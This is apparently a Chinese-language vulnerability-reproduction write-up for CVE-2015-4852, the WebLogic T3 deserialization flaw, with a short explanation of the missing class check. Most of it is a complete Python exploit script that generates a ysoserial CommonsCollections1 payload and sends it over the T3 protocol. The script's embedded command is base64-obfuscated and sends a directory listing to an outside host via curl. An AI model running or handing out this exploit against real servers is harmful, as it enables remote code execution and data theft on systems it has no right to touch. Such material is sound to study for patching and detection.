


# CVE-2015-4852复现分析

## paylaod

```java
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial-0.0.5.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    print(payload)
    sock.send(payload)


if __name__ == "__main__":
    ip = ip
    port = port
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,Y3VybCBodHRwOi8vaW5mby55NHRhY2tlci50b3A/MT1gbHMgfGJhc2U2NGA=}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```

## 漏洞分析

T3协议接收过来的数据会在`weblogic.rjvm.InboundMsgAbbrev#readObject`这里进行反序列化操作。里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法，查看一下

这里调用创建一个内部类，并且调用`readObject`方法，还需要查看一下 `ServerChannelInputStream`实现。

在这里其实就可以看到`ServerChannelInputStream`是一个内部类，该类继承`ObjectInputStream`类，而在这里对`resolveClass`进行了重写

但是在此处看到，其实调用的还是父类的`resolveClass`方法。在`resolveClass`方法中也没做任何的校验，导致的漏洞产生


至此我们的反序列化点就有了，那么既然有了反序列化点，我们的 gadget也采用CC1即可，直接用ysoserial生成即可